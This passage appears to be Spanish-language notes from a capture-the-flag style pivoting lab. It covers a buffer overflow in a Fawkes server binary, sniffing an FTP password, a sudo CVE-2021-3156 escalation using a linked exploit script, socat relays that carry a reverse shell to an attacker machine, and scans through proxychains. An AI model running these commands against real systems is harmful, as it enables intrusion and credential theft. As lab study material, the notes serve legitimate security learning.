 #### <font color="#fac08f">Intrusión</font>

Descargamos el Binario por FTP
- `strace ./server_hogwarts` Levanta un servidor en el localhost por el puerto 9898
- `nc localhost 9898` Nos conectamos al puerto en nuestra máquina local.
- `proxychains4 nc 192.168.100.132 9898` Nos  conectamos directamente al binario de Fawkes

##### BoF 
Como tenemos el binario en local (descarga FTP) vamo a abrir el binario con gdb y conectarnos con "nc".
Si introducimos multiples "A" vemos un segmentation fault, esto nos indica  que no esta sanitizado el input del usuario y por lo tanto podemos llegar a controlar el flujo del programa sobreescribiendo partes de la memoria para poder injectar un comando.

La idea es ejecutar el binario con gdb e ir probando con `nc localhost 9898` , hacemos un script para que sea más comodo.
```python
$> gdb ./server_hogwarts
	$> run # Ejecutamos el binario
	$> checksec # Vemos protecciones en el binario activas
	$> pattern create 300 # Creamos una cadena de texto unica para identificar la longitud del input hasta llegar al EIP.
```

##### Contenedor
- sudo -l -> sudo /bin/sh -> root
- En la note.txt nos dice que analicemos el trafico 
- `tcmdump -i eth0 port ftp or ftp-data` -> pass neville:bL!Bsg3k
##### Neville
- find / -perm -4000 -ls 2\>/dev/null -> Binario sudo, version vulnerable  `searchsploit sudo 1.8.27`
- Usamos este [script](https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py) para hacer un bypass al sudo, solo necesitamos cambiar la ruta de donde esta nuestro binario de sudo, es decir en "/usr/local/bin/sudo".
##### <font color="#0070c0">ROOT</font>
- Crear authorized\_keys con nuestro .pub
- PWNED

#### <font color="#fac08f"><u>Pivoting</u> Fawkes</font> 

Esta máquina no necesita un cliente chisel, ya que sabemos que no tiene alcanze a otras redes, pero si tenemos que mandarnos la revShell cuando lanzamos el script al BoF en el puerto 9898.
```python
$> ./socat TCP-LISTEN:2323,fork TCP:10.10.0.129:2324 # NAGINI -> Escucha el puerto indicado en el ShellCode del BoF
$> ./socat TCP-LISTEN:2324,fork TCP:192.168.50.221:4545 # ARAGOG redirige el socat de la Nagiri al "nc" en nuestra máquina
$> nc -nlvp 4545 # KALI -> Recibe la revShell
```
### <font color="#de7802">Dumbledore</font>
#### <font color="#fac08f">Enumeración</font>
- Con [NetScan](https://raw.githubusercontent.com/r4mnx/Tools/main/NetScan/NetScan.sh) realizo un escaneo desde Nagini y descubrimos una IP
- Lanzamos nmap con el siguiente comando para agilizarlo mediante hilos y bajo el proxy. `seq 1 65535 | xargs -P 500 -I {} proxychains4 nmap -sT -Pn -p{} --open -T5 -v -n 192.168.100.130 2>&1 | grep "tcp open"` 
- Vamos a usar crackmapexec para ver a que Windows nos enfretamos:
	- `proxychains4 crackmapexec smb 192.168.100.130 2>/dev/null`
	- Es un windows 7 con smbv1
